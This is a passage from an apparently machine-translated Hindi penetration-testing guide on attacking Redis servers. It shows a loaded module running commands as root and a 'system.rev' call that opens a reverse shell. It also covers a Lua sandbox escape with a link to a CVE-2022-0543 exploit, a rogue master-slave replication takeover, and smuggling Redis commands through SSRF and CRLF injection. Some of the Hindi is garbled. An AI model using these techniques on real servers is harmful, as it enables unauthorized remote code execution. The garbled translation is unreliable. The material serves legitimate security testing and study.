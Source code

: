 ```
127.0.0.1:6379> system.exec "id"
"uid=0(root) gid=0(root) groups=0(root)\n"
127.0.0.1:6379> system.exec "whoami"
"root\n"
127.0.0.1:6379> system.rev 127.0.0.1 9999
```
6. चाहें तो मॉड्यूल को अनलोड करें: `MODULE UNLOAD mymodule`

### LUA सैंडबॉक्स बाईपास

[**यहां**](https://www.agarri.fr/blog/archives/2014/09/11/trying\_to\_hack\_redis\_via\_http\_requests/index.html) आप देख सकते हैं कि Redis लुआ कोड सैंडबॉक्स को निष्पादित करने के लिए **EVAL** कमांड का उपयोग करता है। लिंक किए गए पोस्ट में आप देख सकते हैं कि इसे **dofile** फ़ंक्शन का उपयोग करके **दुरुपयोग** कैसे किया जाता है, लेकिन [शायद](https://stackoverflow.com/questions/43502696/redis-cli-code-execution-using-eval) अब यह संभव नहीं है। फिर भी, यदि आप लुआ सैंडबॉक्स को **बाईपास** कर सकते हैं, तो आप सिस्टम पर **आरबिट्रे** कमांड निष्पादित कर सकते हैं। इसके अलावा, उसी पोस्ट से आप कुछ **DoS करने के विकल्प** देख सकते हैं।

लुआ से बाहर निकलने के लिए कुछ **CVEs**:

* [https://github.com/aodsec/CVE-2022-0543](https://github.com/aodsec/CVE-2022-0543)

### मास्टर-स्लेव मॉड्यूल

मास्टर रेडिस सभी ऑपरेशन स्वचालित रूप से स्लेव रेडिस में सिंक्रनाइज़ होते हैं, जिसका मतलब है कि हम वंशवादी रेडिस को एक स्लेव रेडिस के रूप में मान सकते हैं, जो हमारे नियंत्रण में होता है, फिर हम अपने रेडिस में कमांड दर्ज कर सकते हैं।
```
master redis : 10.85.0.51 (Hacker's Server)
slave  redis : 10.85.0.52 (Target Vulnerability Server)
A master-slave connection will be established from the slave redis and the master redis:
redis-cli -h 10.85.0.52 -p 6379
slaveof 10.85.0.51 6379
Then you can login to the master redis to control the slave redis:
redis-cli -h 10.85.0.51 -p 6379
set mykey hello
set mykey2 helloworld
```
## Redis के साथ बातचीत करने के लिए SSRF

यदि आप **स्पष्ट पाठ** अनुरोध **Redis को** भेज सकते हैं, तो आप इसके साथ **संवाद कर सकते हैं** क्योंकि Redis अनुरोध को पंक्ति-पंक्ति पढ़ेगा और उसे समझने में असमझित पंक्तियों पर केवल त्रुटियों के साथ प्रतिक्रिया देगा:
```
-ERR wrong number of arguments for 'get' command
-ERR unknown command 'Host:'
-ERR unknown command 'Accept:'
-ERR unknown command 'Accept-Encoding:'
-ERR unknown command 'Via:'
-ERR unknown command 'Cache-Control:'
-ERR unknown command 'Connection:'
```
इसलिए, यदि आपको एक वेबसाइट में **SSRF vuln** मिलता है और आप कुछ **हेडर्स** (संभवतः CRLF vuln के साथ) या **POST parameters** को **नियंत्रित** कर सकते हैं, तो आप Redis को विचारशक्ति कमांड भेज सकेंगे।
